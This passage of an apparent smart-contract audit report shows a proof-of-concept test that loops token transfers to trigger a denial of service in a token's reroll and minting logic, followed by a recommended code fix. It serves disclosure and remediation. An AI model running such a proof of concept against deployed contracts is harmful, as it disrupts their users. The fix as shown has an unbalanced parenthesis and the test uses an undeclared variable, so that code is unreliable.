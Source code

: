 **POC Code**

```solidity
function testDOSReroll() public {
    address a = address(this);
    uint256 tokenAmount = 1e18;
    hevm.prank(a);
    token.toggleChunkProcessing();
    hevm.prank(a);
    token.mint(a, tokenAmount);

    for (uint256 i = 0; i < 1336; i++) {
        hevm.prank(a);
        token.transfer(b, tokenAmount);
        hevm.prank(b);
        token.transfer(a, tokenAmount);
    }
    console.log("mintedChunks = %s", pToken.mintedChunks());
}
```

**Recommendations**

To mitigate the issue consider adjusting the reroll function as following:

```diff
function _reroll(address from_, uint256 id_) internal virtual override(SFT418Core) {
    require(from_ == _chunkToOwners[id_].owner, "INVALID_FROM");
+    uint256 _mintRng = _getRNG(1);
-    if (maxChunks > mintedChunks) {
+    if ((maxChunks > mintedChunks) && (_mintRng % 100) > 49)) {
-        uint256 _mintRng = _getRNG(1);

-        if ((_mintRng % 100) > 49) { // 0-49, 50-99
            _ERC721Transfer(from_, TOKEN_POOL, id_);
            _ERC721MintSequential(from_);
        }
        else {
            uint256 _rng = _getRNG(uint160(from_));
            uint256 _poolOwnedLength =  _ownerToChunkIndexes[TOKEN_POOL].length;
            require(_poolOwnedLength > 0, "NO_ITEMS_TO_REROLL");

            uint256 _rngIndex = _rng % _poolOwnedLength;
            uint256 _rngId = _ownerToChunkIndexes[TOKEN_POOL][_rngIndex];

            _ERC721Swap(from_, TOKEN_POOL, id_, _rngId);
-        }
    }
}
```

## Low Risk
